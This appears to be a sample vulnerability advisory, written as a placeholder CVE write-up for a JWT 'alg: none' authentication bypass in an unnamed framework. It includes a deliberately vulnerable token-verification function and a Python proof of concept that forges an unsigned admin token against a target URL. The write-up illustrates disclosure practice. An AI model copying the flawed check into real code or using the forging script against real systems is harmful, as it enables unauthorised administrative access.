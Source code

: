 **Research Documentation and Publishing**:
```markdown
# CVE-2024-XXXXX: Critical Authentication Bypass in Framework X

## Executive Summary
A critical authentication bypass vulnerability exists in Framework X versions 1.0.0 through 2.5.3 that allows unauthenticated attackers to gain administrative access to any application using the framework.

## Technical Details

### Vulnerability Description
The vulnerability exists in the session management component where JWT tokens are validated. Due to a logic flaw in the token verification process, an attacker can craft a malicious JWT that bypasses all authentication checks.

### Root Cause Analysis
The vulnerability stems from improper validation of the JWT signature when the 'alg' header is set to 'none'. The framework incorrectly treats unsigned tokens as valid when specific conditions are met.

```python
# Vulnerable code
def verify_token(token):
    header = decode_header(token)
    if header['alg'] == 'none':
        # BUG: Returns true without signature verification
        return True
    return verify_signature(token)
```

### Exploitation Details
An attacker can exploit this vulnerability by:
1. Creating a JWT with 'alg' set to 'none'
2. Including arbitrary claims including admin role
3. Sending the token to any protected endpoint

### Proof of Concept
```python
import jwt
import requests

# Create malicious token
payload = {
    "user_id": "1",
    "role": "admin",
    "exp": 9999999999
}

# Create unsigned token
token = jwt.encode(payload, '', algorithm='none')

# Use token to access admin panel
response = requests.get(
    'https://target.com/admin',
    headers={'Authorization': f'Bearer {token}'}
)

print(f"Status: {response.status_code}")
print(f"Admin access granted: {'admin' in response.text}")
```
